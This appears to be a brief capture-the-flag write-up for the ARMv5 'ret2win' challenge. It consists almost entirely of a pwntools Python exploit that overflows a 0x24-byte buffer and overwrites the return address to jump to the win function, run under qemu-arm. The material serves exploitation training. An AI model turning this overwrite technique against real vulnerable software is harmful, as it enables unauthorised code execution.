

this is pretty basic, just overwrite the return address and its basically over 

```
#!/usr/bin/python3
from pwn import *

context.os="linux"
context.log_level="debug"

script='''
target remote localhost:1234
b *pwnme
c
'''

# p=process(["qemu-arm","-L", "/usr/arm-linux-gnueabihf","-g","1234","./ret2win_armv5"])
p=process(["qemu-arm","./ret2win_armv5"])

buffer=0x24*b"A"
payload=flat(
    buffer,
    0x000105ec
)
p.recvuntil(">")
p.send(payload)

p.interactive()
```